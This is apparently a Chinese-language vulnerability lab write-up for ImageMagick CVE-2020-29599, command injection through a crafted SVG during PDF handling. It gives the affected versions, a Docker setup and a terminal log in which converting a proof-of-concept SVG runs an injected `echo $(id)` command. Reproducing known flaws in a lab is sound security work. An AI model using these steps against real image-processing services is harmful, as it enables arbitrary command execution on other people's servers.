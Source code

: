 # Imagemagick PDF密码位置命令注入漏洞（CVE-2020-29599）

ImageMagick是一款使用量很广的图片处理程序，很多厂商都调用了这个程序进行图片处理，包括图片的伸缩、切割、水印、格式转换等等。研究者@insertScript 发现在Imagemagick 7.0.10-35到7.0.10-40、6.9.11-35 up到6.9.11-40处理PDF的过程中存在一处命令注入漏洞，通过构造好的SVG格式图片文件，即可在Imagemagick中注入任意命令。

参考链接：

- https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html

## 漏洞环境与复现

直接执行如下命令进入安装了Imagemagick 7.0.10-36的Linux环境：

```
docker-compose run im bash
```

进入`/tmp`目录，对[poc.svg](poc.svg)进行格式转换，即可触发漏洞：

```
root@f200ec9e1c1e:/# cd /tmp/
root@f200ec9e1c1e:/tmp# ls
poc.svg
root@f200ec9e1c1e:/tmp# identify poc.svg
poc.svg SVG 700x700 700x700+0+0 16-bit sRGB 398B 0.000u 0:00.003
root@f200ec9e1c1e:/tmp# convert poc.svg poc.png
sh: 1: : Permission denied
convert: MagickCore/image.c:1168: DestroyImage: Assertion `image != (Image *) NULL' failed.
Aborted
root@f200ec9e1c1e:/tmp# ls
0wned  poc.svg
root@f200ec9e1c1e:/tmp#
```

此时命令`echo $(id)> ./0wned`已执行成功：

![](1.png)

